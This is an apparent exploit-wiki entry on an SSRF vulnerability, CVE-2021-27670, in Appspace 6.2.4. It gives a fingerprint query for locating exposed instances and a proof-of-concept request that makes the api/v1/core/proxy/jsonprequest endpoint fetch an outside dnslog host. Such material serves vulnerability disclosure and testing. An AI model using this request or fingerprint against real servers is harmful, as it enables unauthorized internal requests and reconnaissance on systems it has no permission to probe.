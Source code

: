 # Appspace jsonprequest SSRF vulnerability CVE-2021-27670

## Vulnerability Description

There is a vulnerability in Appspace 6.2.4, allowing server request forgery through the api/v1/core/proxy/jsonprequest interface, endangering system security.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Appspace 6.2.4</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Sign-in-to-Appspace-Core"</span>

## Vulnerability reappears

The login page is

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630488521981-cac80156-754a-4388-9f0e-f1b32a25bdca.png)

Verify POC

```python
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=https://lo2z02.dnslog.cn
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630488586297-b2ee6e6c-6739-494c-ad7f-39eeb43a486e.png)